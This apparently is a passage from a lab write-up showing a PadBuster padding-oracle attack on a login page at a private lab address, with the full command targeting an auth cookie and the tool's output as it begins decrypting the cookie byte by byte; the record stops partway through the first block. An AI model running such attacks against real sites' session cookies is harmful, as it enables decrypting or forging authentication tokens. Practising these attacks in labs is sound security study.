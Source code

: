  ![0](image/success.png)  

 ```
 perl padBuster.pl http://192.168.56.104/login.php fM2H6W2coHwhfadXl%2BFR1i%2BCQDeQg5sy 8 --cookies auth=fM2H6W2coHwhfadXl%2BFR1i%2BCQDeQg5sy --encoding 0

 +-------------------------------------------+
 | PadBuster - v0.3.3                        |
 | Brian Holyfield - Gotham Digital Science  |
 | labs@gdssecurity.com                      |
 +-------------------------------------------+

 INFO: The original request returned the following
 [+] Status: 200
 [+] Location: N/A
 [+] Content Length: 1530

 INFO: Starting PadBuster Decrypt Mode
 *** Starting Block 1 of 2 ***

 INFO: No error string was provided...starting response analysis

 *** Response Analysis Complete ***

 The following response signatures were returned:

 -------------------------------------------------------
 ID#     Freq    Status  Length  Location
 -------------------------------------------------------
 1       1       200     1677    N/A
 2 **    255     200     15      N/A
 -------------------------------------------------------

 Enter an ID that matches the error condition
 NOTE: The ID# marked with ** is recommended : 2 
 Continuing test with selection 2

 [+] Success: (226/256) [Byte 8]
 [+] Success: (41/256) [Byte 7]
 ```